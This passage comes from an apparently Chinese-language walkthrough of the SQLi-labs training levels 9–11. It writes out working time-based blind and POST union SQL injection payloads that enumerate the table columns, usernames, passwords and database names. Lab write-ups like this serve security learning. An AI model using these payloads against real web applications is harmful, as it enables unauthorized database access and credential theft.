 - 猜测 users 表的列：
  
  `?id=1'and If(ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))=105,1,sleep(5))--+`
  
  - 猜测 users 表的第一个列的第一个字符是 i，
  
  - 以此类推，得到列名是 id，username，password

- 猜测 username 的值：
  
  `?id=1'and If(ascii(substr((select username from users limit 0,1),1,1))=68,1,sleep(5))--+`
  
  - 猜测 username 的第一行的第一位
  
  - 以此类推，我到数据库 username，password 的所有内容

## Less-10

闭合方式：`"`

同Less-9,时间盲注

## Less-11

Username : 1'

Password : 1

![https://gitee.com/xvshifu/pic-go/raw/master/img/20250718144918853.png](https://gitee.com/xvshifu/pic-go/raw/master/img/20250718144918853.png)

**注：POST注入中，注释符要用`#`或`-- a`**

#### 方法一：POST-联合注入

`1' union select 1,database() #`

POST:`passwd=1&submit=Submit&uname=%601%27+union+select+1%2Cdatabase%28%29+%23%60`

显示出数据库：`security`

![https://gitee.com/xvshifu/pic-go/raw/master/img/20250718144919009.png](https://gitee.com/xvshifu/pic-go/raw/master/img/20250718144919009.png)

POST:`passwd=1&submit=Submit&uname=a%27+order+by+2+--+a`

`passwd=1&submit=Submit&uname=a%27+order+by+3+--+a`

![https://gitee.com/xvshifu/pic-go/raw/master/img/20250718144919176.png](https://gitee.com/xvshifu/pic-go/raw/master/img/20250718144919176.png)

![https://i-blog.csdnimg.cn/img_convert/4aa839037c75f591ee18eab20e96030d.png](https://i-blog.csdnimg.cn/img_convert/4aa839037c75f591ee18eab20e96030d.png)

获取所有数据库，

POST:

```
passwd=1&submit=Submit&uname=a' union select 1,(select group_concat(schema_name) from information_schema.schemata)  -- a
```
